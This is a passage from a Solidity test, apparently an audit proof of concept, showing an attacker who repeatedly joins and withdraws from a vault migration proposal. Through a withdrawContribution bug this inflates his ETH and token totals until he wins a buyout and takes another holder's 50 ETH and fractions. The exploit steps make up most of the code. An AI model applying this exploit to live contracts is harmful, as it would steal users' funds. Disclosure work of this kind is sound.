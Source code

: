```
        // but to make this PoC easier to read, instead of creating several fake accounts,
        // let's have just Alice join his own proposal with 50% of token supply.

        // STEP 4
        // Bob makes an evil proposal, with evil modules to steal the vault's NFTs
        bob.migrationModule.propose(
            vault,
            modules,
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY,
            1 ether
        );

        // STEP 5
        // Bob joins and then withdraws from the proposal in loop, to inflate the ETH of his proposal
        // and total locked tokens (thanks to a bug in the `withdrawContribution` function)
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 24);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 101);


        // Let's do some accounting...
        (,,uint256 totalEth_AliceProposal,,,,,,) = migrationModule.migrationInfo(vault,1);
        (,,uint256 totalEth_BobProposal,uint256 _totalFractions,,,,,) = migrationModule.migrationInfo(vault,2);

        // Alice proposal has 50 ETH.
        assertEq(totalEth_AliceProposal, 50000000000000000000);

        // Bob's proposal has 50 ETH.
        assertEq(totalEth_BobProposal, 50000000000000000000);

        // He only put 10 ETH, but it shows 50 ETH because
        // we inflate it by exploiting the bug.

        // We can keep inflating it indefinitely to get any ETH
        // amount desired (up to the max ETH balance of the smart contract).

        // NOTE that the very REAL ETH Balance of the vault is only the 50 ETH (from Alice) + 10 ETH (from Bob) = 60 ETH.

        // We'll steal those 50 ETH from alice and all of his fractional tokens, to add them to our proposal now.

        // STEP 6
        // Bob calls commit to kickoff the buyout process
        bool started = bob.migrationModule.commit(vault, 2);
        assertTrue(started);

        // Final accounting:
        // Buyout now has 5,100 Fraction tokens from a total supply of 10,000 (that's 51% of total supply,
        // exactly what is required to win a proposal)
        assertEq(getFractionBalance(buyout), 5101);

```
